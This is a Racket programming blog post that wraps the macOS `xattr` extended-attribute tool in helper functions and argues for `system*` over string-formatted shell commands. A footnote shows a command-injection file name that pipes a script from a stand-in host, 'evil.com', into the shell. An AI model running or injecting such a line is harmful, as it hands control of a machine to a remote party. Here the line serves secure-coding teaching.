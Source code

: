 ```yaml
---
title: Wrapping xattr as a racket module
date: 2020-01-29
programming/topics:
- Filesystems
programming/languages:
- Racket
---
```

I recently came across a question: how do you read [[wiki:extended file attributes]]() in Racket. Not being actually that familiar with extended file attributes, I searched online. Nothing seems to currently exist (other than <a href="https://docs.racket-lang.org/fuse/index.html#%28def._%28%28lib._fuse%2Fmain..rkt%29._setxattr%29%29">in the FUSE module, but that's specific to FUSE</a>), but there is a system level exectuable that one could wrap to do this. I haven't done <i>much</i>[^much] with Racket's {{< doc racket "system" >}} or {{< doc racket "system*" >}} function before, so let's give it a whirl.

<!--more-->

First (and doing most of the work), let's take a look at the `xattr` function's [[wiki:man page]]():

<pre style="overflow-x: auto; white-space: pre-wrap; word-wrap: break-word;">
NAME
    xattr -- display and manipulate extended attributes

SYNOPSIS
    xattr [-lrsvx] file ...
    xattr -p [-lrsvx] attr_name file ...
    xattr -w [-rsx] attr_name attr_value file ...
    xattr -d [-rsv] attr_name file ...
    xattr -c [-rsv] file ...
    xattr -h | --help

DESCRIPTION
    The xattr command can be used to display, modify or remove the extended attributes of one or more files, including directories and symbolic links.  Extended attributes are arbitrary metadata stored with a file, but separate from the filesystem attributes (such as modification time or file size).  The metadata is often a null-terminated UTF-8 string, but can also be arbitrary binary data.

    One or more files may be specified on the command line.  For the first two forms of the command, when there are more than one file, the file name is displayed along with the actual results. When only one file is specified, the display of the file name is usually suppressed (unless the -v option described below, is also specified).

    In the first form of the command (without any other mode option specified), the names of all extended attributes are listed.  Attribute names can also be displayed using ``ls -l@''.

    In the second form, using the -p option (``print''), the value associated with the given attribute name is displayed.  Attribute values are usually displayed as strings.  However, if nils are detected in the data, the value is displayed in a hexadecimal representation.

    The third form, with the -w option (``write''), causes the given attribute name to be assigned the given value.

    The fourth form, with the -d option (``delete''), causes the given attribute name (and associated value), to be removed.

    In the fifth form, with the -c option (``clear''), causes all attributes (including their associated values), to be removed.
</pre>

So that is the functionality we will want to wrap. For my first attempt, we'll just read the values. 

```racket
> (define (xattr-list file)
    (system* (find-executable-path "xattr") file))

> (xattr-list "xattr.rkt")
com.apple.FinderInfo
com.apple.metadata:_kMDItemUserTags
```

As I did before, I could use `(system (format "xattr ~a" file))` but I've grown a lot as a developer with a focus on security since then. And one thing I've learned that can cause no end of trouble is using string formatting to build system commands. Just don't do it[^example]. In Racket, use {{< doc racket "system*" >}}. It will take each argument as a parameter and you don't have to worry about properly escaping things. 

A good start, but I really want a list. To do that, we'll need to capture the output from `system*` into a string. Luckily, Racket is good at that:

```racket
> (define (xattr-list file)
    (with-output-to-string
      (thunk
       (system* (find-executable-path "xattr") file))))

> (xattr-list "xattr.rkt")
"com.apple.FinderInfo\ncom.apple.metadata:_kMDItemUserTags\n"
```

And then to pull it apart:

```racket
> (define (xattr-list file)
    (string-split
     (with-output-to-string
       (thunk
        (system* (find-executable-path "xattr") file)))
     "\n"))

> (xattr-list "xattr.rkt")
'("com.apple.FinderInfo" "com.apple.metadata:_kMDItemUserTags")
```

Nice. 

That actually deals with the "\n" that's naturally at the end of the output--and that saw an example ago--properly, but we'll have to deal with that ourselves later.

Now, we copy this a number of time over and over for each of the functions, but that seems like a waste. Instead, let's abstract calling `xattr` in general:

```racket
(define xattr
  (let ([exe (find-executable-path "xattr")])
    (λ args
      (string-trim
       (with-output-to-string
         (thunk
          (apply system* (cons exe args))))
       "\n"
       #:left? #f
       #:right? #t
       #:repeat? #f))))
```

Here, I'm using two tricks. The `let` is within the `define`, so it can't be seen outside of the function, but it's also only evaluated once. Then `(λ args ...`, instead of the more common `(λ (args) ...` means that all of the parameters will be put together into a list. 

Then, deep into the function, we add the function executable and {{< doc racket "apply" >}} `system*` to it in order to deal with arbitrarily many arguments, much the same way `system*` itself does. 

Using this, we can directly replicate the `xattr-list` function:

```racket
> (xattr "xattr.rkt")
"com.apple.FinderInfo\ncom.apple.metadata:_kMDItemUserTags"

> (string-split (xattr "xattr.rkt"))
'("com.apple.FinderInfo" "com.apple.metadata:_kMDItemUserTags")
```

And that's all we'd need. But if we want to make it a bit easier/cleaner, we can wrap the various xattr functions ourselves:

```racket
(define (xattr-list file) (string-split (xattr file) "\n"))
(define (xattr-read file key) (xattr "-p" key file))
(define (xattr-write file key value) (xattr "-w" key value file))
(define (xattr-delete file key) (xattr "-d" key file))
(define (xattr-clear file) (xattr "-c" file))
```

And one more helper just in case we want to read all the keys and values into a nice {{< doc racket "hash" >}}:

```racket
(define (xattr-read-all file)
  (for/hash ([key (in-list (xattr-list file))])
    (values key (xattr-read file key))))
```

Then we can test it:

```racket
> (xattr-list "xattr.rkt")
'("com.apple.FinderInfo" "com.apple.metadata:_kMDItemUserTags")

> (xattr-write "xattr.rkt" "hello" "world")
""

> (xattr-read "xattr.rkt" "hello")
"world"

> (xattr-read-all "xattr.rkt")
'#hash(("com.apple.FinderInfo" . "...")
       ("com.apple.metadata:_kMDItemUserTags" . "...")
       ("hello" . "world"))
```

Nice.

If you want the full source, you can find it on GitHub: [xattr.rkt](https://github.com/jpverkamp/small-projects/blob/master/racket-libraries/xattr.rkt)

[^much]: Although I did in [Graph Coloring]({{< ref "2014-01-15-graph-coloring.md" >}}) and [Phone Networks]({{< ref "2014-05-21-phone-networks.md" >}}) to access GraphViz and [iOS Backup Apps]({{< ref "2015-01-29-ios-backup-apps.md" >}}) to handle parsing binary plists with `plutil`, it's been a while.

[^example]: What if the `file` was `.; curl evil.com | sh`? The command to run would end up `xattr .; curl evil.com | sh` which, as you might imagine, could do all sorts of fun things to your system.